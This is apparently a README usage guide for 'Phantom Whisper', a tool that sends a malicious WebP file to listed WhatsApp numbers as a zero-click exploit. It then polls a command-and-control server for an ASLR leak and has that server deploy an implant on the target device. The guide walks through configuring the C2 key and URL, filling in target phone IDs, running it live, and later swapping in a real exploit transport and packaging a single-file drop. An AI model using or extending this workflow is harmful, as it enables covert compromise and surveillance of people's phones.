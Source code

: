 # Phantom Whisper — Step‑by‑Step Usage Guide

*A zero‑to‑green‑check walkthrough*

---

## 1  Prerequisites

| Requirement                 | Why                                  | Quick Check                |
| --------------------------- | ------------------------------------ | -------------------------- |
| Python 3.9 +                | Typing + `pydantic_settings` support | `python --version`         |
| `virtualenv` or `pyenv`     | Isolate deps                         | *Optional but recommended* |
| Git + GCC/Clang             | Pull & build wheels                  | `git --version`            |
| Out‑of‑scope test device(s) | Ethical testing only                 | Device IMEIs / IDs         |

---

## 2  Clone & Install

```bash
# 2.1  Clone
$ git clone https://github.com/exfil0/PhantomWhisper.git
$ cd phantom‑whisper

# 2.2  Create and activate venv
$ python -m venv .venv
$ source .venv/bin/activate

# 2.3  Install deps
$ pip install -r requirements.txt
```

---

## 3  Configure Environment

Create a file named `.env` **in the project root**:

```env
# .env
C2_API_KEY=REPLACE_WITH_REAL_KEY
```

| Variable                        | Description                              |
| ------------------------------- | ---------------------------------------- |
| `C2_API_KEY`                    | Auth token for your C2 service           |
| (Optional) `C2_SERVER_BASE_URL` | Defaults to `https://your-c2-server.com` |

---

## 4  Prepare Payload & Target List

1. Drop your **malicious WebP** into `./payloads/malicious_webp.bin`
      *Keep filename—code resolves by path.*
2. Edit `phantom_whisper/config.py` *or* append to `.env`:

   ```env
   # Comma‑separated WhatsApp IDs
   TARGET_WHATSAPP_IDS="+15551234567,+15557654321"
   ```

---

## 5  Dry‑Run Smoke Test

```bash
$ python -m phantom_whisper.orchestrator --help   # coming soon
$ python -m phantom_whisper.orchestrator          # runs with defaults
```

What to expect:

* Console log lines in plain text.
* `./logs/phantom_whisper.log` populated with JSON entries.

*No network calls will be fired until payload & targets are reachable.*

---

## 6  Live Execution

```bash
# Ensure VPN / lab network is ready
$ python -m phantom_whisper.orchestrator
```

The orchestrator will:

1. **Send Zero‑click WebP** → target device(s)
2. Poll C2 for **ASLR leak** (exponential back‑off)
3. Instruct C2 to **deploy implant** `main_implant_<os>.bin`

Exit code = number of failed targets (0 → 🎉).

---

## 7  Log & Evidence Collection

* **Human‑readable:** console output.
* **Structured:** `logs/phantom_whisper.log` (JSON per line).
* **Hash traceability:** each session includes `payload_hash` + `session_id`.

> Tip: import the JSON log into a SIEM/Grafana for timeline views.

---

## 8  Parallel Mode (Optional)

Uncomment the `ThreadPoolExecutor` block in `orchestrator.py` and set:

```python
settings.max_workers = 4  # or env var in future release
```

---

## 9  Cleanup

```bash
$ deactivate             # leave virtualenv
$ rm -rf .venv logs/*.log
```

---

## 10  Troubleshooting

| Symptom                               | Likely Cause          | Fix                                     |
| ------------------------------------- | --------------------- | --------------------------------------- |
| `requests.exceptions.ConnectionError` | Bad C2 URL / VPN down | Verify `C2_SERVER_BASE_URL`             |
| `PayloadError: not found`             | Wrong payload path    | Confirm `./payloads/malicious_webp.bin` |
| Exit code > 0                         | Some targets failed   | See `logs/` for `ERROR` lines           |

---

### 💡 Next Steps

* Swap simulated WhatsApp transport for real exploit transport.
* Add CLI arg parsing for fully headless use.
* Package with `pyinstaller` for single‑file drop && go.

— **Happy hunting & stay ethical!**
